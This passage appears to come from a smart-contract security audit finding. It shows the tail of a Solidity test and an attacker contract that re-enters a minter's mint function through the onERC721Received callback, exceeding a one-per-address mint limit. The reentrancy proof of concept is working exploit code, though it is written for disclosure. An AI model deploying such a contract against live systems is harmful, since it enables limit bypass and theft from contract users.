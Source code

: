 ```solidity
58:         attackerContract2.onERC721Received(address(minter), address(0), 0, emptyData);
59:
60:         uint256 attackerContractNFTBalance = gencore.balanceOf(address(attackerContract2));
61:         assertEq(attackerContractNFTBalance, 2); //This proves that attacker can exceed max allowance of 1
62:     }
63: }
```

### Attacker's Contract

```solidity
File: AttackerContract2.t.sol
01: // SPDX-License-Identifier: MIT
02:
03: pragma solidity ^0.8.19;
04:
05: import {INextGenCore} from "../smart-contracts/INextGenCore.sol";
06: import {IERC721Receiver} from "../smart-contracts/IERC721Receiver.sol";
07:
08:
09: contract AttackerContract2 is IERC721Receiver {
10:
11:     uint256 counter;
12:
13:     INextGenCore gencore;
14:
15:     function onERC721Received(address minter, address gencore, uint256 tokenId, bytes memory data) public override returns(bytes4) {
16:         ++counter;
17:
18:         if(counter < 3) {
19:             bytes32[] memory emptyArray;
20:             bytes memory selector = abi.encodeWithSignature("mint(uint256,uint256,uint256,string,address,bytes32[],address,uint256)", 1, 1, 0, "", address(this), emptyArray, address(0), 0);
21:         (bool success,) = address(minter).call{value: 1000000000000000000}(selector);
22:         }
23:
24:         return IERC721Receiver.onERC721Received.selector;
25:
26:     }
27:
28:     //Some withdrawal mechanism implemented by attacker
29:
30:     receive() external payable {}
31: }
```

## Tools Used
Manual Review
